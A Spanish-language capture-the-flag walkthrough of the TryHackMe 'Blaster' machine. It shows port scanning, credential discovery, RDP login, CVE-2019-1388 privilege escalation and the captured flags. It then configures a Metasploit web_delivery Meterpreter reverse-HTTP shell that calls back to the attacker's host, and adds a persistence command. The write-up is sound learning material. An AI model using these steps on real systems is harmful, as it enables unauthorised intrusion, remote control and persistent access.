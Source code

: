 # Blaster v3

## Escaneo de puertos

Escaneamos la IP de la máquina usando `nmap`para encontrar los puertos abiertos y los servicios que tengan.

```
nmap -A -T4 -p- 10.10.10.249
```

Hay dos puertos abiertos: un servidor en web en el puerto 80 y un RDP en el 3389.

![Escaneo de puertos](images/Pasted%20image%20202502221170150.png)
## Fuzzing

Accedemos al servidor web.

![Servidor web](images/Pasted%20image%2020250221152959.png)

Es un servidor de Windows Server de IIS (Internet Information Services).

Abrimos el dirbuster y le hacemos fuzzing a la web para encontrar más directorios.

![Dirbuster](images/Pasted%20image%2020250221153206.png)

Encontramos un directorio llamado `retro`que puede ser importante.

![Directorio retro](images/Pasted%20image%2020250221153427.png)

## Investigating

Accedemos al mismo.

```
http://10.10.10.249/retro/
```

![Acceso retro](images/Pasted%20image%2020250221153510.png)

Encontramos un username, `Wade`y vemos que su contraseña está relacionada con la película "Ready Player One".

![Contraseña relacionada](images/Pasted%20image%2020250221153739.png)

Buscamos el nombre del avatar de Wade en el juego. Es `Parzival`.

![Avatar](images/Pasted%20image%2020250221153906.png)

Accedemos por el puerto 3389 donde está el servicio RDP funcionando. Usamos las credenciales que hemos encontrad.

```
xfreerdp /u:wade /p:parzival /v:10.10.10.249
```

![RDP acceso](images/Pasted%20image%2020250221154228.png)

Se nos abre el escritorio remoto del cliente Wade.

![Escritorio remoto](images/Pasted%20image%2020250221154325.png)

Abrimos `user.txt`y tenemos la primera flag.

![user.txt](images/Pasted%20image%2020250221154417.png)

```
THM{HACK_PLAYER_ONE}
```

Miramos por la máquina y encontramos este CVE:

```
CVE-2019-1388
```

## Escalada de privilegios

También encontramos un ejecutable en el escritorio `hhupd`.

![hhupd](images/Pasted%20image%2020250221155633.png)

Lo ejecutamos y nos pide los credenciales del Administrador. Le damos a "Show more details".

![Detalles de hhupd](images/Pasted%20image%2020250221155916.png)

Y luego "Show information about the publisher's certificate".

![Certificado](images/Pasted%20image%2020250221155950.png)

Hacemos clic en "VeriSign Commercial Software Publishers CA".

![VeriSign](images/Pasted%20image%2020250221160106.png)

Cerramos la ventana y se los habrá abierto una pestaña nueva en Internet Explorer que no cargará porque no hay Internet.

![Internet Explorer](images/Pasted%20image%2020250221162229.png)

Intentamos guardar la página haciendo clic en el engranaje arriba a la derecha y dándole a "File" y "Save as". Nos aparece un mensaje de error.

![Error al guardar](images/Pasted%20image%2020250221162407.png)

Le damos a "OK" y en el explorador de archivos escribimos `cmd.exe`.

![cmd.exe](images/Pasted%20image%2020250221162543.png)

Se nos abre el cmd y escribimos `whoami`para verificar que hemos hecho bien la escalada de privilegios.

![whoami](images/Pasted%20image%2020250221162633.png)

Nos movemos al escritorio del Administrador y tenemos un fichero llamado `root.txt`.
![root.txt](images/Pasted%20image%2020250221162727.png)

Y obtenemos la flag:

![Flag root.txt](images/Pasted%20image%2020250221162811.png)

```
THM{COIN_OPERATED_EXPLOITATION}
```

## Metasploit

Accedemos a la consola de metasploit.

```
msfconsole
```

Seleccionamos el siguiente exploit:

```
use exploit/multi/script/web_delivery
```

Mostramos los objetivos y seleccionamos el 2.

```
show targets
set target 2
```

![Metasploit targets](images/Pasted%20image%2020250221163459.png)

Mostramos las opciones y asignamos la IP de nuestro equipo local en la VPN de tryhackme por el puerto 8082.

```
set LHOST 10.8.3.33
set LPORT 8082
```

Seleccionamos el siguiente payload:

```
set payload windows/meterpreter/reverse_http
```

![Payload](images/Pasted%20image%2020250221164025.png)

Ejecutamos el exploit:

```
run -j
```

![Ejecutando exploit](images/Pasted%20image%2020250221164132.png)

Copiamos el código anterior en el `cmd.exe`de antes y tendremos acceso remoto completo al sistema.

![Acceso remoto](images/Pasted%20image%2020250221164301.png)

Con meterpreter, para que tenga persistencia escribimos el siguiente comando:

```
run persistence -X
```

















